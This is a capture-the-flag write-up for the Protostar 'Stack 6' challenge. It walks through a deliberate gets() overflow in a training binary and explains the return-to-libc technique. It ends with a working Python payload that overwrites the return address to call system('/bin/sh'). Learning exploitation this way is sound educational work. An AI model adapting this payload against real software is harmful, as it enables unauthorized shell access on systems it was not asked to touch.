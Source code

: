 # Stack 6

## Source Code:

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);                            // <- this function cause buffer overflow    (1)

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {   // <- check if the ret of getpath() is on the stack     (2)
    printf("bzzzt (%p)\n", ret);           //          if true, then "bzzzt" and exit with signal 1    (3)
    _exit(1);
  }

  printf("got path %s\n", buffer);         // <-       if false, then it's simply print got path  (4)
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Overview & Main Idea

- This challenge has no-pie, no stack protector, rwx segment.

![img](/protostar/stack6/assets/checksec.png)

- At first, we can see that the program has buffer overflow vulnerability (1), so we can overwrite on the stack. But we can't overwrite getpath()'s address to another address on the stack that allow us to return to, so we can't use return to shellcode on stack to take control of target.
 
![img](/protostar/stack6/assets/stack_segment.png)

> ## Note: the stack has start at 0xbffeb000 and end at 0xc0000000, so we can't overwrite ret and return on the stack.

- With some informations above, I'll take advantage of ret-to-libc vulnerability to this challenge. 

## Details

### A bit about Ret-to-libc

#### What is Ret-to-libc?

- Ret-to-libc attack (return to libc, or return to C library) is one in which the attacker does not require any shellcode to take control of the target, vulnerability of process. Ret2libc is used to exploit buffer overflow vulnerabilities on systems where stack memory is protected with NX (no execute bit).
- In a standard stack-based buffer overflow, an attacker writes their shellcode into the vulnerable program's stack and executes it on the stack. 
- However, if the vulnerable program's stack is protected (NX bit is set, which is the case on newer systems), attackers can no longer execute their shellcode from the vulnerable program's stack. 
- To fight the NX protection, a return-to-libc technique is used, which enables attackers to bypass the NX bit protection and subvert the vulnerable program's execution flow by re-using existing executable code from the standard C library shared object (/lib/i386-linux-gnu/libc-*.so), that is already loaded and mapped into the vulnerable program's virtual memory space, similarly like ntdll.dll is loaded to all Windows programs.

#### Libc

- Every time you write a C program, you use one or the other of the inbuilt functions, like printf, scanf, puts etc. All the standard C functions have been compiled into a single file, named the standard C library or the libc. A libc is native to the system that you are working on and is independent of the binary (compiled program). You can use the **ldd** command to find out which libc is being used by an application.

![img](/protostar/stack6/assets/ldd.png)

- At a high level, ret-to-libc technique is similar to the regular stack overflow attack, but with one key difference - instead of overwritting the return address of the vulnerable function with address of the shellcode when exploiting a regular stack-based overflow with no stack protection, in ret-to-libc case, the return address is overwritten with a memory address that points to the function system(const char *command) that lives in the libc library, so that when the overflowed function returns, the vulnerable program is forced to jump to the system() function and execute the shell command that was passed to the system() function as the *command argument as part of the supplied shellcode. 
- In our case, we will want the vulnerable program to spawn the /bin/sh shell, so we will make the vulnerable program call system("/bin/sh").

#### The idea of Ret2libc is shown by below image

![img](/protostar/stack6/assets/illustrate_img.png)

### Exploit

- Let's find:
  + Size of bytes to overwrite until we can overwrite return the getpath() functions's address.
  + System() function's address to implement CLI command to take the shell.
  + Exit() function's address to exit the program when we done, but you can alter this with garbage value to fill up 4 bytes, like "aaaa" or somethings else.
  + Address to "/bin/sh" char*.

> # Note: ASLR must be turn off, if it's on, the address will be randomize every time we run the program
>
> ![img](/protostar/stack6/assets/aslr_off.png)
>

#### Offset to overwrite

- I use cyclic from pwntools to find the offset that we must overwrite

![img](/protostar/stack6/assets/cyclic.png)

![img](/protostar/stack6/assets/input.png)

- After do that, we find the offset to overwrite

![img](/protostar/stack6/assets/offset.png)

#### System and Exit function's address

- In GDB, I use `p system` and `p exit` to find the address of system and exit function

![img](/protostar/stack6/assets/system_exit.png)

> # Note: we can see that both system and exit function are in libc

#### Finding "/bin/sh"

- The `int system(char *command)` take 1 argument that is the shell command, so we also find "/bin/sh" string.

- We can use `find address_begin, address_end string_to_find` to find characters in string in range between address begin and end. But it's not in a specific ordered.

- But when the program is running, it link the libc to use build-in function. So we can find "/bin/sh" in this linked libc. In this program is /lib/libc-2.11.2.so with offset is 11f3bf

![img](/protostar/stack6/assets/offset_binsh.png)

- Finally, address of "/bin/sh" when program is running is calculated by `offset_binsh + libc_base_address = 0x11f3bf + 0xb7e97000 = 0xb7fb63bf`.

- So, We found all things to exploit the program, let's use python to write some script.

```python
# file name: exp.py

padding = "a"*80
fake_ret = "a"*4
sys_addr = "\xb0\xff\xec\xb7"
binsh_addr = "\xbf\x63\xfb\xb7"

payload = ""
payload += padding + sys_addr + fake_ret + binsh_addr
print(payload)

# python exp.py > temp.pwn && (cat temp.pwn; cat) | ./stack6
```
